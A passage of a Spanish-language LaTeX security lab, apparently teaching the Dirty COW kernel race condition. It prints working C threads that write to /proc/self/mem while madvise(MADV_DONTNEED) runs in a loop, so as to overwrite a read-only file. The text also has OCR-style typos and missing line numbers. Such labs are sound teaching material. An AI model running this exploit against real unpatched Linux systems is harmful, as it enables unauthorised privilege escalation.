 En el código anterior, necesitamos encontrar donde se ubica el patróon \texttt{"222222"}, esto lo hacemos uando una función de cadena llamada \texttt{strstr()} que nos devuelve la locación en memoria donde está el patrón \texttt{"222222"} (Línea ). Luego se disparan dos thrads: el \texttt{madviseThread} (Línea ) y el 
\texttt{writeThread} (Línea ).



\subsection{Configurando el thread \texttt{write}}

El trabajo del thread \texttt{write} is reemplazar en memoria la cadena \texttt{"222222"} con \texttt{"******"}. Debido a que la memoria mapeada es de tipo COW, este thread solamente podrá modificar el contenido en una copia de la memoria mapeada que no causará ningún cambio en el archivo \texttt{/zzz}.

\begin{lstlisting}[caption={The \texttt{write} thread},
                   label=cow:code:cow_attack:write]
/* cow_attack.c (the write thread) */

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
\end{lstlisting}


\subsection{El Thread \texttt{madvise}}

El thread \texttt{madvise} hace sólo una cosa: descarta la copia privada de la memooria mapeada para que la tabla de páginas apunte nuevamente a la memoria mapeada originalmente.


\begin{lstlisting}[caption={The \texttt{madvise} thread},
                   label=cow:code:cow_attack:madvise]
/* cow_attack.c (the madvise thread) */

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
\end{lstlisting}


